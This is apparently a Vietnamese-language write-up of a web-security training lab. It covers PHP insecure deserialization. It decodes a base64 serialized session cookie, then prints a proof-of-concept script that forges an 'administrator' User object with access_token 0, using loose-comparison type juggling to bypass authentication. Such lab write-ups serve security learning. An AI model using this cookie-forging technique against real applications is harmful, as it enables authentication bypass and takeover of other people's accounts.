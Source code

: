 - Yêu cầu tương tự như bài trên là xóa `carlos` với tư cách quản trị viên.
- ![image](https://hackmd.io/_uploads/Sk2FF4K06.png)

- ![image](https://hackmd.io/_uploads/ryFnFVtCa.png)

```
<?php

// class User {
//    public  $username; 
//    public  $access_token;
//    function __construct($username, $access_token){
//       $this->username = $username;
//       $this->access_token = $admin;
//    }

// }

// $poc = new User("viewner", true);

// $poc = serialize($poc);

// echo base64_encode($poc);

$a= "Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJuNGF1ampocms1eHhyZzA0a3BrMmVzdXIzN3A0eWUzOCI7fQ==";

$a = base64_decode($a);

$b= unserialize($a);

print_r($b);

?>

----->
__PHP_Incomplete_Class Object
(
    [__PHP_Incomplete_Class_Name] => User
    [username] => wiener
    [access_token] => n4aujjhrk5xxrg04kpk2esur37p4ye38
)

```

- ở đây khác với ở trên là check token thay vì boolean, nên mình sẽ thay `username` thành `administrator` nhưng đồng thời access-token được lose compare để mình sẽ khai khác type jugging.
```
<?php

class User {
   public  $username; 
   public  $access_token;
   function __construct($username, $access_token){
      $this->username = $username;
      $this->access_token = $access_token;
   }

}

$poc = new User("administrator", 0);

$poc = serialize($poc);

echo base64_encode($poc);
```